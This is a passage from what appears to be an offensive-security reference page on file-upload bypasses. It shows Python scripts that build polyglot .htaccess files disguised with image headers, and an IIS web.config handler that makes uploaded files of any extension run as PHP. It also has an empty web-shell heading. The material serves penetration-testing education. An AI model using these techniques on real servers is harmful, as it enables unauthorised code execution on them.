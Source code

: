 ```python[htaccess_poly.py]
type_header = b'\x00'
fixed_header = b'\x00'
width = b'50'
height = b'50'
payload = b'{{ payload # .htaccess file }}'

with open('.htaccess', 'wb') as htaccess:
    htaccess.write(type_header + fixed_header + width + height)
    htaccess.write(b'\n')
    htaccess.write(payload)
```

</template>
<template v-slot:python-legacy>

```python[htaccess_poly.py]
width = 50
height = 50
payload = '{{ payload # .htaccess file }}'

with open('.htaccess', 'w') as htaccess:
    htaccess.write('#define test_width %d\n' % (width, ))
    htaccess.write('#define test_height %d\n' % (height, ))
    htaccess.write(payload)
```

</template>
</smart-tabs>

> You might want to improve that code a bit if you test this often.

### IIS


#### Execute arbitrary extensions as PHP

If you can upload a `web.config` file you might want to directly execute code from it as it can be executed.
But for consistance purposes this would be the equivalent from the Apache example.

```xml[web.config]
<handlers>
   <add name="PHP-FastCGI" verb="*" 
      path="{{ path-regex *.php }}" 
      modules="FastCgiModule"
      scriptProcessor="{{ interpreter c:\php\php-cgi.exe }}" 
      resourceType="Either" />
</handlers>
```

You can find more information about this example on Microsoft's official documentation [^3].

[^3]: Configure handlers on IIS: https://docs.microsoft.com/en-us/iis/configuration/system.webserver/handlers/#configuration-sample


#### Self contained web shell #1


[^1]: Port Swigger Web Security Academy: https://portswigger.net/web-security/file-upload
[^2]: Wikipedia - List of file signatrues: https://en.wikipedia.org/wiki/List_of_file_signatures
